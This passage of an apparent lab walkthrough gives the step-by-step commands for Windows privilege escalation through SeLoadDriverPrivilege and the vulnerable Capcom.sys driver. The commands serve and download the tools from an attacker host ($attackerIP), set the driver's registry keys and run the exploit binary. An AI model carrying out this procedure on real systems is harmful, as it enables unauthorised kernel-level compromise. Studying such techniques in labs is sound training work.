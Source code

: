 **4.** Serve the files to the target host:

```
python3 -m http.server 80
```

**5.** Download the files to the target host:

```powershell
# open a powershell terminal and change the directory for instance to C:\Tools
cd C:\Tools
wget http://$attackerIP/EnableSeLoadDriverPrivilege.exe -outfile EnableSeLoadDriverPrivilege.exe
wget http://$attackerIP/Capcom.sys -outfile Capcom.sys
wget http://$attackerIP/DriverView.exe -outfile DriverView.exe
```

**6.** Save the `Capcom.sys` driver from [here](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys), and save it to `C:\test`. If test does not exist, create it:

```powershell
mkdir c:\test
copy Capcom.sys c:\test\Capcom.sys
```

**7.** Issue the commands below to add a reference to this driver under our HKEY_CURRENT_USER tree.

```powershell
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\test\Capcom.sys"

reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```

**8.** Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded.

```powershell
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

**9.** Run the `EnableSeLoadDriverPrivilege.exe` binary.

```powershell
.\EnableSeLoadDriverPrivilege.exe
```

The Output should be something like this:

```powershell
whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```
